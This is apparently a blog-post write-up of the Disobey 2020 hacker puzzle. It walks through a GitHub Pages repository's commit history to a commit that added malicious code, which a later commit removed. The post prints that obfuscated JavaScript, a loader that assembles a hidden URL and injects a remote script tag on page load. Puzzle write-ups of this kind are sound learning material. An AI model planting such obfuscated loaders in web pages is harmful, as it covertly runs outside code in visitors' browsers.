 ```yaml
---
title: "Disobey Puzzle 2020 - writeup"
date: 2019-08-03T16:32:40+03:00
draft: true
toc: false
images:
tags:
  - disobey
---
```


This year's Disobey puzzle started with a website, which is hosted via Github pages. This means that other than the website itself can be considered out-of-scope. Recon phase is pretty quick, since you can get the whole site's source code straight from [Github](https://github.com/disobey2020/disobey2020.github.io). With a quick glance you can see that the webiste is pretty simple, and doesn't include anything interesting **at it's current state**.

![Github Repository](/images/disobey_puzzle2020/Github_repo.png)

Github is a interesting place. In this puzzle, it is crucial to check out everything that is available, especially the commit history.

![Commit history](/images/disobey_puzzle2020/commit_history.png)

From here you can see commit `0ac77ce...` and how it included some malicious stuff, and how the malicious code was removed in commit `4517bd0...`. There also is a [closed issue](https://github.com/disobey2020/disobey2020.github.io/issues/2), but that could just be an easter egg. Let's remember this, just in case. But for now, let's focus on the commit `0ac77ce`, where there was some malicious code.

```javascript
 var _0x4311=['.fi','/ma','l.js','write','<script\x20src=\x22','s://','0x42'];(function(_0x426e03,_0x359476){var _0x17c635=function(_0x5dfa16){while(--_0x5dfa16){_0x426e03['push'](_0x426e03['shift']());}};_0x17c635(++_0x359476);}(_0x4311,0x9f));var _0x5a74=function(_0x2d8f05,_0x4b81bb){_0x2d8f05=_0x2d8f05-0x0;var _0x4d74cb=_0x4311[_0x2d8f05];return _0x4d74cb;};var f1='hT';var f2='tP';var f3=_0x5a74('0x0');var f4=_0x5a74('0x1');var f5=_0x5a74('0x2');var f6=_0x5a74('0x3');var f7=_0x5a74('0x4');document[_0x5a74('0x5')](_0x5a74('0x6')+f1+f2+f3+f4+f5+f6+f7+'\x22><\/script>');
 ```

 The code is obfuscated, but can easily be formed to readable form, via your favorite js beatifier.